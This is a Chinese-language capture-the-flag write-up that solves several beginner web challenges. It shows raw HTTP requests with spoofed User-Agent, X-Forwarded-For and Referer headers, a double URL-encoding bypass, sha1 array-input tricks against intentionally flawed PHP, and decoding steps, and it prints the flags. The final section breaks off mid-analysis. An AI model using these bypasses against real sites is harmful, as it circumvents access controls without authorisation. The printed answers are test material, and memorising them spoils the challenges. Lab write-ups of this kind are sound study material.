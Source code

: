 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## what a fuck!这是什么鬼东西?

jother 编码 [这里](https://wps2015.org/drops/drops/jother%E7%BC%96%E7%A0%81%E4%B9%8B%E8%B0%9C.html)
直接在 Console( )里运行得到Flag : Ihatejs

## NSCTF web200

![](http://ctf5.shiyanbar.com/web/web200.jpg)

分析代码,密文首先被反转,再自增 1 
base64-encode 后再反转
ROT13 加密,得到密文 :
`a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws`

先逆转该过程就 OK 了

[ROT13 解密](http://www.mxcz.net/tools/rot13.aspx)得 : 

`n1mYotDfPRFRVdEYjhDNlZjYld2Y5IjOkdTN3EDNlhzM0gzZiFTZ2MjO4gjf`

翻转 :

`fjg4OjM2ZTFiZzg0MzhlNDE3NTdkOjI5Y2dlYjZlNDhjYEdVRFRPfDtoYm1n`

base64-decode : 
```
~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg
```
自减 1 后翻转得 :

 `flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}`

## FALSE

查看源码:
```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
    echo '<p>Login first!</p>';
?>
```
发现需要构造 str1!=str2 并且两串的 sha1 值相等
直接构造肯定不现实
根据题目提示,应构造两者的返回值为 false, 即 false===false
sha1 与 MD5 都不能处理数组,所以我们构造两个数组 GET 提交
得到Flag : CTF{t3st_th3_Sha1}

## Guess Next Session
查看提示代码:
```php
<?php
session_start(); 
if (isset ($_GET['password'])) {
    if ($_GET['password'] == $_SESSION['password'])
        die ('Flag: '.$flag);
    else
        print '<p>Wrong guess.</p>';
}

mt_srand((microtime() ^ rand(1, 10000)) % rand(1, 10000) + rand(1, 10000));
?>
```
分析代码,发现上面的随机数只是个坑,应该满足条件`$_GET['password']  ==  $_SESSION['password']`
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjE0MDg4NzYxMCwtMTU3OTAwNjk2M119
-->